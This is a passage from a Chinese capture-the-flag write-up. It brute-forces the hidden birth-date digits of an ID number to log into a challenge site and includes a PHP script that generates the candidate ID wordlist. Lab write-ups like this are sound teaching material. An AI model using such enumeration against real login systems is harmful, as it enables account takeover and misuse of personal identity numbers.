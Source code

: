 要爆破身份证中间出生年月了。

[![BUMtRe.md.png](https://s1.ax1x.com/2020/10/31/BUMtRe.md.png)](https://imgchr.com/i/BUMtRe)

成功爆破，

得到

```
{"0":"success","msg":"恭喜您，您已被我校录取，你的学号为02015237 初始密码为身份证号码"}
```

登录得到flag.

wp脚本

```php
<?php
//621022********5237
$myfile = fopen("zid.txt", "w") or die("Unable to open file!");
for($year=1990;$year<1993;$year++){
for($mon=1;$mon<10;$mon++){
for($day=01;$day<10;$day++)
{
$txt=('621022'.$year.'0'.$mon.'0'.$day.'5237')."\n";
fwrite($myfile, $txt);
}
}
} 
for($year=1990;$year<1993;$year++){
for($mon=1;$mon<10;$mon++){
for($day=10;$day<=31;$day++)
{
$txt=('621022'.$year."0".$mon.$day.'5237')."\n";
fwrite($myfile, $txt);
}
}
} 
for($year=1990;$year<1993;$year++){
for($mon=10;$mon<=12;$mon++){
for($day=10;$day<=31;$day++)
{
$txt=('621022'.$year.$mon.$day.'5237')."\n";
fwrite($myfile, $txt);
}
}
} 
for($year=1990;$year<1993;$year++){
for($mon=10;$mon<=12;$mon++){
for($day=01;$day<10;$day++)
{
$txt=('621022'.$year.$mon."0".$day.'5237')."\n";
fwrite($myfile, $txt);
}
}
} 
fclose($myfile);
```

## web28

```
大海捞针
```


